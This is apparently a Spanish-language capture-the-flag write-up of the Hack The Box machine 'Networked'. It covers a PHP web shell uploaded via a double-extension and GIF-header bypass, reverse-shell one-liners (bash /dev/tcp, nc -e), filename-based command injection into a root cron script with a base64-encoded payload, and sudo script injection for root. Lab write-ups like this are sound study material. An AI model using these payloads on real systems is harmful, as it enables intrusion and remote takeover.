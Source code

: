 10.10.10.146 - Networked

![Networked](https://user-images.githubusercontent.com/96772264/197965145-d3fd5d23-d00c-4a9d-b593-83cd42cf33b3.png)

------------------------

# Part 1: Enumeración

Tenemos los puertos 22(ssh) y 80(http)

```console
└─$ whatweb http://10.10.10.146
http://10.10.10.146 [200 OK] Apache[2.4.6], HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.4.16],
```

El servidor nos dice que 

```
Hello mate, we're building the new FaceMash!
Help by funding us and be the new Tyler&Cameron!
Join us at the pool party this Sat to get a glimpse 
<!-- upload and gallery not yet linked -->
```
> Tyler&Cameron: modelo participante en el "Hombres Mujeres & Vicebersa" americano 
> FaceMash: red social ilegal para puntuar cual era la estudiante mas sexy de Harvard

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.146/FUZZ/
000000021:   403        8 L      22 W       210 Ch      "cgi-bin"                                            
000000150:   200        1 L      1 W        2 Ch        "uploads"                                            
000000069:   200        1006 L   4983 W     74409 Ch    "icons"                                              
000001612:   200        15 L     55 W       885 Ch      "backup"
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.146/FUZZ.php
000000001:   200        8 L      40 W       229 Ch      "index"
000000165:   200        22 L     88 W       1302 Ch     "photos"
000000352:   200        5 L      13 W       169 Ch      "upload"
000000707:   200        0 L      0 W        0 Ch        "lib"
```
------------------------------

# Part 2: Web shell via File upload

/backup
Tenemos el archivo backup.tar donde sale el codigo de todos esos phps que hemos encontrado. Conclusiones:  
- Los archivos se suben a /uploads (/var/www/html/uploads/)  
- Metodo /POST parametros: myFile (archivo), submit.  
- Pone los permisos 644: (read write (propietario)   read(grupo)   read(otros))  
- El archivo a subir tiene que cumplir los requisitos de no ser muy grande y tener una extension de imagen.  
- Encima le cambia el nombre  

![networked2](https://user-images.githubusercontent.com/96772264/197965379-185ce95b-18e9-4910-8cac-8ddadac7133d.PNG)

Por tanto para burlar esto se le pone doble extension (para que verifique solo la segunda) y cabecera de GIF8 por los magic numbers:  
> **magic numbers**: primeros bits que determinan que clase de archivo tenemos  
```php
GIF8;
<?php echo "<pre>" . cmd_exec($_REQUEST['cmd']) . "</pre>";?>
```
```console
└─$ mv cmd.php cmd.php.jpg
└─$ curl -s -X POST http://10.10.10.146/upload.php -d 'myFile=@cmd.php.jpg&submit=go!'
```

Si nos vamos a /images.php y vemos de donde viene una imagen viene de ```/uploads/127_0_0_4.png``` es decir quita el nombre y lo cambia por una IP.  

![networked1](https://user-images.githubusercontent.com/96772264/197965421-e8b9ea78-7540-4942-b7cc-cf28a99183c4.PNG)

Si subimos una foto normal al servidor (la misma de centos) la ruta es ```/uploads/10_10_14_15.png``` Subimos la nuestra (cmd.php.jpg) por la web en vez de por
curl y ya funciona (se ve en la galeria) Copiando su ruta y haciendo una peticion tenemos que:  

```console
└─$ curl -s http://10.10.10.146/uploads/10_10_14_15.php.jpg?cmd=whoami                       
GIF8;
<pre>apache
</pre> 
└─$ curl -s "http://10.10.10.146/uploads/10_10_14_15.php.jpg?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.15/443 0>%261'"
nada
└─$ curl -s "http://10.10.10.146/uploads/10_10_14_15.php.jpg?cmd=nc -e /bin/sh 10.10.14.15 443"
tampoco
```
Probe ambas en via web y la segunda me dio la shell.

----------------------------

# Part 3: Accediendo al usaurio basico

Tras un tratamiento de la tty subi mi script de enumeracion a /tmp:
```console
bash-4.2$ curl -O http://10.10.14.15:8000/lin_info_xii.sh
bash-4.2$ chmod +x ./lin_info_xii.sh
```

- Somos apache, los otros usaurios son root y guly  
- SUIDs -> pam_timestamp_check, unix_chkpwd, usernetctl, chage, pkexec, crontab, sudo  
- /var/mail/guly -> tendra algo?  
- Estan corriendo estos procesos: ```/usr/bin/python2 -Es /usr/sbin/tuned -l -P, /usr/sbin/rsyslogd -n```

Ninguno de los SUIDs nos sirven pero; 
```console
bash-4.2$ ls -l /home
total 4
drwxr-xr-x. 2 guly guly 4096 Sep  6 15:57 guly
```
En la carpeta del guly este tenemos que:
```console
bash-4.2$ ls -l
-r--r--r--. 1 root root  782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root   44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly   33 Oct 25 11:01 user.txt
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php
```
Cada tres minutos se ejecuta eso por root, el problema esque no tenemos permiso se escritura, pero si de lectura.
```console
<?php 
require '/var/www/html/lib.php';  // Reutiliza código de la web.
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly'; $msg= ''; $headers = "X-Mailer: check_attack.php\r\n";
$files = array(); $files = preg_grep('/^([^.])/', scandir($path)); // Por cada archivo de la ruta /uploads 
foreach ($files as $key => $value) { $msg='';    
  if ($value == 'index.html') { continue; }  
  list($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {   // Si detecta que es malicioso (o sea no hay una ip bien puesta)
    echo "attack!\n";
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);
    exec("rm -f $logpath"); 
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &"); // ejecuta este comando
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value"); }}?>
```
Como ejecuta el comando bin/rm -f $path$value y tenemos control de $value (o sea el nombre del archivo), podemos ponerle un nombre malicioso como: 
```test;whoami | nc 10.10.14.15 666``` haciendo que se concatenen dos comandos.  
```console
└─$ sudo nc -nlvp 666
Ncat: Connection from 10.10.10.146:36746.  
guly
```
La shell se cierra ```nc -e bash 10.10.14.15 666``` pero si se encodea eso en base64:
```; echo bmMgLWMgYmFzaCAxMC4xMC4xNC4xNSA2NjYK | base64 -d | bash```

----------------------------------

# Part 4: Obteniendo root

Ya estamriamos bajo el usaurio guly

-   (root) NOPASSWD: /usr/local/sbin/changename.sh

```console
[guly@networked tmp]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
tesy
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
Si buscas en google ```network-scripts exploit``` sale [esto](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f).

```
[guly@networked tmp]$ sudo /usr/local/sbin/changename.sh
interface NAME:
asasda whoami
root 
root
[/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
asdads bash
interface PROXY_METHOD:
sad
...
[root@networked network-scripts]# whoami
root
```
---------------------------------------

# Extra: Analizando el codigo

```php
$path = '/var/www/html/uploads/';   // A partir de esta ruta
$ignored = array('.', '..', 'index.html'); $files = array(); 
foreach (scandir($path) as $file) {
  if (in_array($file, $ignored)) continue;  //toma cada archivo salvo '.' '..' e 'index'
  $files[$file] = filemtime($path. '/' . $file); }
```
Repliqué el codigo y me salió:
```php
<?php
$path = '/home/cucuxii/Maquinas/htb/Networked';
$ignored = array('.', '..'); $files = array();
foreach (scandir($path) as $file) {  
    if (in_array($file, $ignored)) continue;
    $files[$file] = filemtime($path. '/' . $file);}
print_r($files);
?>
```
```console
└─$ php prueba.php 
Array
(
    [.Networked.md.swp] => 1666691784
    [.prueba.php.swp] => 1666692384
    [Networked.md] => 1666691390
    [backup] => 1666690965
    [prueba.php] => 1666692384
)
```
O sea que hace un diccionario por cada archivo y su calve valor es nombre:fecha.

